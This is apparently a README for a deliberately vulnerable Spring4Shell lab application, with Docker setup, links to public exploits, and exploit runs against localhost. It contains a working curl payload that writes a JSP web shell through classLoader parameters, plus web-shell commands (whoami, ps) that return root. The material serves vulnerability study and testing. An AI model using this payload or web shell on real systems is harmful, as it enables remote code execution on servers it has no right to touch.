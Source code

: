 # Spring4Shell PoC Application

- [Spring Framework RCE, Early Announcement
](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement) - Spring
- [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring
](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-03-30-spring-core-rce.mdx) - LunaSec

## Getting started

### Run application

```bash
$ ./gradlew clean build -i
```

```bash
$ docker build . -t spring4shell
$ docker run -p 8080:8080 --name spring4shell --rm spring4shell
```

### Exploit

- [BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [craig/SpringCore0day](https://github.com/craig/SpringCore0day)

```bash
$ pip install -r requirements.txt
```

```bash
$ ./exploit.py --url http://localhost:8080/rce/greeting
[✘] http://localhost:8080/rce/greeting Not Vulnerable!

# application log
2022-04-04 10:56:02.632  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Initializing Servlet 'dispatcherServlet'
2022-04-04 10:56:02.634  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Completed initialization in 1 ms
04-Apr-2022 10:56:05.099 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deploying web application directory [/usr/local/tomcat/webapps/ROOT]
04-Apr-2022 10:56:05.123 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deployment of web application directory [/usr/local/tomcat/webapps/ROOT] has finished in [23] ms
```

```bash
$ docker exec -it spring4shell cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp

$ ./exploit.py --url http://localhost:8080/tomcatwar.jsp
Vulnerable, shell ip:http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami" --output -
root

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=ps" --output -
  PID TTY          TIME CMD
    1 ?        00:00:19 java
   99 ?        00:00:00 ps
```

- [Spring4Shell: The zero-day RCE in the Spring Framework explained
](https://snyk.io/blog/spring4shell-zero-day-rce-spring-framework-explained/) - Snyk

```bash
$ curl -X POST \
    -H "pre:<%" \
    -H "post:;%>" \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}i out.println("HACKED" + (2 + 5))%{post}i' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
    http://localhost:8080/rce/greeting

$ curl "http://localhost:8080/tomcatwar.jsp"
HACKED7

$ docker exec -it spring4shell cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp
<% out.println("HACKED" + (2 + 5));%>
```
